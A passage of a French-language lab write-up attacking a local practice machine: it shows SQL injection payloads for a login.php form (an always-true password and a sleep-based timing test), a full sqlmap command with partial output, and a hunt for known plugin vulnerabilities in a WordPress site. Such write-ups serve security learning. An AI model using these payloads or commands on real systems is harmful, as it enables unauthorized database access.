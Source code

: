 Je trouve aussi un script `login.php` en recherchant les noms de fichiers.

Ce dernier semble sensible aux caractères spéciaux SQL dans le champ de mot de passe mais au lieu de nous connecter il ne fait qu'affichier `0` ou `1` en résultat.

Ainsi si je rentre `admin` / `admin` ça affiche `0` mais j'obtiens `1` si je rentre `' or '1` comme mot de passe.

Après quelques essais plus poussés le champ `user` est aussi vulnérable : on obtient une temporisation si on tape `admin' or sleep(10) or '`.

Je lance `sqlmap` et en attendant qu'il fasse son job je saute sur le port 443.

Sur ce port on trouve un Wordpress à l'adresse `/wordpress`. Juste en regardant le code source on obtient un bon nombre de métadonnées :

```html
	<script type='text/javascript' src='http://192.168.56.89/wordpress/wp-content/plugins/proplayer/js/swfobject.js'></script>
<!-- All in One SEO Pack 2.2.5.1 by Michael Torbert of Semper Fi Web Design[297,356] -->
<link rel='stylesheet' id='contact-form-7-css' href='https://192.168.56.89/wordpress/wp-content/plugins/contact-form-7/includes/css/styles.css?ver=4.1' type='text/css' media='all'/>
<link rel='stylesheet' id='cart66-css-css' href='https://192.168.56.89/wordpress/wp-content/plugins/cart66-lite/cart66.css?ver=1.5.3' type='text/css' media='all'/>
<meta name="generator" content="WordPress 4.1"/>
<meta name="generator" content="Cart66 Lite 1.5.3"/>
<a href="https://bitnami.com/stack/wordpress/" title="Semantic Personal Publishing Platform">Proudly powered by Bitnami WordPress Stack</a>
```

En cherchant `proplayer` sur *exploit-db* je trouve deux exploits, tous deux pour de l'injection SQL.

Pour `Cart66` je trouve un XSS, un CSRF et encore une faille SQL. Cette dernière requiert malheureusement un compte valide sur le Wordpress.

Pour le `All In One SEO` Pack je ne trouve que des failles XSS.

A ce stade, vu la lenteur du site *exploit-db.com* ces derniers temps, sqlmap a déjà détecté les vulnérabilités dans le script de login :

```shellsession
$ python sqlmap.py -u http://192.168.56.89/login.php --data "user=test&password=test&s=Submit" --dbms mysql --risk 3 --level 5 --flush-session
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.6.11.7#dev}
|_ -| . [)]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 09:46:17 /2023-01-02/

[09:46:17] [INFO] flushing session file
[09:46:17] [INFO] testing connection to the target URL
[09:46:17] [INFO] checking if the target is protected by some kind of WAF/IPS
[09:46:17] [INFO] testing if the target URL content is stable
[09:46:17] [INFO] target URL content is stable
[09:46:17] [INFO] testing if POST parameter 'user' is dynamic
[09:46:17] [WARNING] POST parameter 'user' does not appear to be dynamic
[09:46:17] [WARNING] heuristic (basic) test shows that POST parameter 'user' might not be injectable
[09:46:17] [INFO] testing for SQL injection on POST parameter 'user'
[09:46:18] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
--- snip ---
```